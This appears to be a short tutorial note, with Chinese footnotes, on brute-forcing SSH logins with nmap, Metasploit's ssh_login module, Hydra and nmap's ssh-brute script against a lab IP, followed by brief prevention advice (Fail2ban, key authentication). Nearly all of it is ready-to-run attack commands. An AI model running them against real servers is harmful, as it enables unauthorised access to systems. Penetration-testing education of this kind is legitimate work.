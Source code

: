## Gain SSH Access to Servers by Brute-Forcing Credentials

### Overview of SSH [^1]

### Scan with Nmap

`nmap 192.168.1.110 -p 22`

### Metasploit

```bash
service postgresql start
apt-get update && apt-get dist-upgrade
msfconsole
search ssh
use auxiliary/scanner/ssh/ssh_login
options
set rhosts 192.168.1.110
set stop_on_success true
set user_file users.txt
set pass_file pass.txt
set verbose true
run
sessions
sessions -i 1
```

### Hydra

`hydra -L users.txt -P pass.txt ssh://192.168.1.110:22 -t 4`

### Nmap Scripting Engine

`nmap 192.168.1.110 -p 22 --script ssh-brute --script-args userdb=users.txt,passdb=pass.txt`

### How to Prevent SSH Brute-Forcing [^2]



[原文](https://null-byte.wonderhowto.com/how-to/gain-ssh-access-servers-by-brute-forcing-credentials-0194263/)

---

[^1]: SSH代表Secure Shell，是一种[网络协议](https://null-byte.wonderhowto.com/how-to/networking-basics/)，允许通过不安全的网络进行加密通信。SSH加密网络协议在客户端 - 服务器模型上运行，即客户端启动与服务器的连接，并在进行身份验证后建立通信。SSH可以使用密码和[私钥](https://null-byte.wonderhowto.com/how-to/generate-private-encryption-keys-with-diffie-hellman-key-exchange-0180269/)验证，后者被认为更安全。
[^2]: 使用[Fail2ban](https://www.fail2ban.org/wiki/index.php/Main_Page)，[DenyHosts](http://denyhosts.sourceforge.net/)或[iptables](https://linux.die.net/man/8/iptables)这样的服务来阻止主机级别的暴力尝试。或者使用私钥验证和密码相结合，使您远离大多数攻击。如果必须需要基于密码的身份验证，请使用强密码并遵循[最佳做法](https://auth0.com/blog/dont-pass-on-the-new-nist-password-guidelines/)。